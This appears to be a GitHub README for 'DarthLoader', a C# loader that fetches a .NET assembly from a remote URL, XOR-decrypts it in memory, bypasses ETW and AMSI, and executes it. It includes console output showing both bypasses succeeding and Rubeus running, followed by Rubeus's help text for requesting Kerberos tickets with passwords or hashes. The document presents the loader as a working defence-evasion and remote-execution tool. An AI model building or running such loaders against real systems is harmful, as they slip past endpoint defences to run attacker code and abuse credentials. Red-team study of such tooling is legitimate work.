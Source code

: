 # DarthLoader
This is a project heavily inspired by Jean-François Maes's [SANS  Workshop Reflection in C#](https://www.sans.org/webcasts/sans-workshop-reflection-in-c-/) to help (c)sharpen by C# dev skills. A lot of code was borrowed and/or extended for this project.

DarthLoader will do the following:
- Remotely fetch a .Net assembly from the web using a base64 encoded url and Xor the byte array in memory.
- Bypass ETW and AMSI.
- Decrypt and run the assembly from memory.

```
 (                            (                                 
 )\ )                 )    )  )\ )              (               
(()/(      )  (    ( /( ( /( (()/(          )   )\ )   (   (    
/(_))  ( /(  )(   )\()))\()) /(_))  (   ( /(  (()/(  ))\  )(   
(_))_   )(_))(()\ (_))/((_)\ (_))    )\  )(_))  ((_))/((_)(()\  
|   \ ((_)_  ((_)| |_ | |(_)| |    ((_)((_)_   _| |(_))   ((_) 
| |) |/ _` || '_||  _|| ' \ | |__ / _ \/ _` |/ _` |/ -_) | '_| 
|___/ \__,_||_|   \__||_||_||____|\___/\__,_|\__,_|\___| |_| 
 
PS D:\SecToolDev\DarthLoader\DarthLoader\bin\x64\Release> .\DarthLoader.exe testing123
[+] ETW bypassed!
[+] AMSI bypassed!
[*] Downloading and encrypting assembly with the key: testing123
[!] .Net assembly downloaded!
[*] Decrypting and executing assembly...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


 Ticket requests and renewals:

    Retrieve a TGT based on a user password/hash, optionally saving to a file or applying to the current logon session or a specific LUID:
        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/opsec]

    Retrieve a TGT based on a user password/hash, start a /netonly process, and to apply the ticket to the new process/logon session:
        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> /createnetonly:C:\Windows\System32\cmd.exe [/show] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/nowrap] [/opsec]
<-----SNIP----->
```

## To-do
- [X] Paramerize URL 
- [ ] Paramerize assembly parameters
- [ ] remote fetch congfig? (remote fetch assembly URL, Xor key etc.)
- [ ] Help menu
